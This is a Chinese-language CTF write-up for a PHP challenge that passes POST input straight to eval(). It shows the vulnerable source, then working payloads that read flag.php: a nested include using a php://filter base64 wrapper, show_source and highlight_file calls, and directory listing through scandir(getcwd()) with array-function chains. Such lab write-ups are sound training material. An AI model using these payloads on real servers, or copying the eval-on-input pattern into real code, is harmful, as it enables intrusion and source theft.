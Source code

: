 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```



同上题



### 第一种

嵌套include

```
c=include$_POST[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250404150234938](./assets/image-20250404150234938.png)

![image-20250404150246903](./assets/image-20250404150246903.png)





### 第二种

直接show_source()

```
c=show_source("flag.php");
```

![image-20250404150318069](./assets/image-20250404150318069.png)



或者尝试readfile()

![image-20250404150350699](./assets/image-20250404150350699.png)

但是readfile()被禁用





尝试highlight_file()

```
c=highlight_file("flag.php");
```

![image-20250404150501442](./assets/image-20250404150501442.png)



当然，这里仅限于知道文件路径及文件名，直接读取源码



### 其余做法

参考无参rce

getcwd()获取当前路径

scandir()扫描目录

var_dump()打印内容

```
c=var_dump(scandir(getcwd()));
```

![image-20250404150652557](./assets/image-20250404150652557.png)

得到文件名，此时我们可以直接利用上面的show_source("flag.php")等方式直接读取源码

也可以用var_export()输出内容

![image-20250404151035683](./assets/image-20250404151035683.png)

也可以用print_r()输出内容

![image-20250404151041026](./assets/image-20250404151041026.png)



或者继续利用函数

show_source显示源码

next()指向下一个

array_reverse()逆序数组

```
c=show_source(next(array_reverse(scandir(getcwd()))));
```

![image-20250404150801194](./assets/image-20250404150801194.png)



这里的show_source()也可以用high_light()